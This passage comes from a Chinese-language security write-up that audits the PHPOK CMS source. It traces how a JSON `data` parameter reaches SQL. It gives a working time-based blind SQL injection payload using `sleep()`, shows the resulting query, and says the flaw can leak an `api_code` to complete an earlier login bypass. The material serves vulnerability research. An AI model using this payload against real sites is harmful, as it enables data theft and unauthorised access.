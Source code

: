 ```php
                $fid = $key;
                if($value['_alias']){
                    unset($tmpValue['_alias']);
                    $fid = $value['_alias'];
                }
                $rslist[$fid] = phpok($key,$tmpValue);
                $is_ok = true;
            }else{
                $fid = $value['_alias'] ? $value['_alias'] : $key;
                if($call_all && $call_all[$key] && !$call_all[$key]['is_api']){
                    $rslist[$fid] = array('status'=>0,'info'=>P_Lang('未启用远程调用，请检查'));
                }else{
                    $rslist[$fid] = array('status'=>0,'info'=>P_Lang('没有找到数据调用参数，请检查'));
                }
            }
        }
        if(!$is_ok){
            $this->error(P_Lang('未启用远程调用或没有相关调用参数，请检查'));
        }
        $this->success($rslist);
    }
```

对于传入的`data`参数进行json处理成json数组，数组的key值需要在`phpxx`数据表中查询，当数据表中typeid不为sql时会调用`phpxx()`，把json数组中key和valued当作参数传入，此时key就是需要调用的方法，value就是$rs。同时json中还需要存在`_alias`字段，来使其赋值不报错。

我们来看看数据表情况

![image-20231108181003652](https://shs3.b.qianxin.com/butian_public/f18968986b0cbdb76c753390173c8d109e2d3385702bf.jpg)

有好几个`type_id`为`arclist`的情况，我们就可以构造payload为

```php
data={"m_picplayer":{"_alias":"abc","idin":"1,1 and if(1,1 and sleep(7.1),1)"}}
```

![image-20231108182526565](https://shs3.b.qianxin.com/butian_public/f92788028a4d292d90f265ed35a4d59e08df306e9efe0.jpg)

拼接的语句是

```php
 AND l.id IN(1,1 and if(1,1 and sleep(4),1)) 
```

最后返回content后调用`$this->model('list')->arc_count()`，得到最终执行的sql语句

![image-20231108183037738](https://shs3.b.qianxin.com/butian_public/f965626b9a27b01ad5eb33a0296b82906971ed281741b.jpg)

测试也是成功延时，时间是两倍

![f779542ea43ead675f9ed7caeed66c4d6585028942b11.jpg](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-a7cf9c6165f4209ad9cf6c5bcdd6d4928feeddb7.jpg)

然后我们就可以通过注入查看之前我们绕过登录所需要的`api_code`，这下终于闭环了。